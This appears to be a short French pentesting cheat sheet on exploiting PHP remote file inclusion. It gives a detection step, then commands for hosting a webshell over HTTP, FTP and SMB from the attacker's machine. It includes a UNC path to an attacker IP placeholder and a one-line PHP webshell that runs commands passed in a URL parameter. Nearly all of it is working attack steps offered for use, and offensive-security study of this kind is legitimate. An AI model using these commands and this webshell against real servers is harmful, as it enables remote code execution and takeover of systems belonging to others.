 # Détection
Essayer d'inclure un URL local en premier (http://127.0.0.1:80/index.php)
Regarder si le fichier est affiché en code exécuté

# Webshells
servir un webshell par divers protocoles HTTP, FTP, SMB
```shell
sudo python3 -m http.server 80
sudo python -m pyftpdlib -p 21
impacket-smbserver -smb2support share $(pwd)
```

si sur Windows, peut utiliser SMB, donc pas besoin de allow_url_include. Mais peut ne pas être permis vers un réseau externe
\\\\<OUR_IP>\share\shell.php
```shell
echo '<?php system($_GET["cmd"]); ?>' > shell.php
```
/usr/share/webshells/(php, ...)